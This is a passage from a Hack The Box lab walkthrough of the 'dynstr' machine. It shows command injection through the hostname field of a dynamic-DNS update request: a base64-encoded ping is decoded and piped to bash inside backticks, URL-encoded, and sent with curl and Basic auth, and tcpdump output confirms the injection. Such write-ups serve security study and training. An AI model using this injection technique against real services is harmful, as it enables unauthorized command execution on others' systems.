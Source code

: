 ```text
┌──(root💀kali)-[~/htb/dynstr]
└─# echo 'ping -c4 10.10.14.214' | base64
cGluZyAtYzQgMTAuMTAuMTQuMjE0Cg==
```

Here we've base64 encoded a ping back to us. Now we need to get the server to decode this payload and execute. This let's us see if it is arbitrarily executing the subdomain portion. We can test first that our logic works locally:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# echo cGluZyAtYzQgMTAuMTAuMTQuMjE0Cg==  | base64 -d | bash
PING 10.10.14.214 (10.10.14.214) 56(84) bytes of data.
64 bytes from 10.10.14.214: icmp_seq=1 ttl=64 time=0.011 ms
64 bytes from 10.10.14.214: icmp_seq=2 ttl=64 time=0.057 ms
64 bytes from 10.10.14.214: icmp_seq=3 ttl=64 time=0.018 ms
64 bytes from 10.10.14.214: icmp_seq=4 ttl=64 time=0.022 ms
```

Here i've called the bas64 encoded ping back and then decoded it and passed to bash, which executed it and we see the ping on our local Kali.

Now we can test remotely by starting tcpdump on Kali to listen for the ping from the box. Last thing to do is URL endode our payload to get rid of the characters that aren't valid:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('\`echo cGluZyAtYzQgMTAuMTAuMTQuMjE0Cg==  | base64 -d | bash\`'))"
%60echo%20cGluZyAtYzQgMTAuMTAuMTQuMjE0Cg%3D%3D%20%20%7C%20base64%20-d%20%7C%20bash%60
```

This final payload can be added as a subdomain like before:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# curl "http://dyna.htb/nic/update?myip=10.10.14.214&hostname=%60echo%20cGluZyAtYzQgMTAuMTAuMTQuMjE0Cg%3D%3D%20%20%7C%20base64%20-d%20%7C%20bash%60.no-ip.htb" -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk"
911 [nsupdate failed]
```

We get an update failed, but if you look at tcpdump that is listening we see it received the pings:

```text
┌──(root💀kali)-[~/htb/dynstr]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:12:00.899981 IP dyna.htb > 10.10.14.214: ICMP echo request, id 4, seq 1, length 64
11:12:00.899991 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 4, seq 1, length 64
11:12:01.901063 IP dyna.htb > 10.10.14.214: ICMP echo request, id 4, seq 2, length 64
11:12:01.901072 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 4, seq 2, length 64
11:12:02.902575 IP dyna.htb > 10.10.14.214: ICMP echo request, id 4, seq 3, length 64
11:12:02.902585 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 4, seq 3, length 64
11:12:03.904442 IP dyna.htb > 10.10.14.214: ICMP echo request, id 4, seq 4, length 64
11:12:03.904470 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 4, seq 4, length 64
11:12:03.933087 IP dyna.htb > 10.10.14.214: ICMP echo request, id 5, seq 1, length 64
11:12:03.933097 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 5, seq 1, length 64
11:12:04.934231 IP dyna.htb > 10.10.14.214: ICMP echo request, id 5, seq 2, length 64
11:12:04.934242 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 5, seq 2, length 64
11:12:05.935225 IP dyna.htb > 10.10.14.214: ICMP echo request, id 5, seq 3, length 64
11:12:05.935234 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 5, seq 3, length 64
11:12:06.935920 IP dyna.htb > 10.10.14.214: ICMP echo request, id 5, seq 4, length 64
11:12:06.935930 IP 10.10.14.214 > dyna.htb: ICMP echo reply, id 5, seq 4, length 64
```
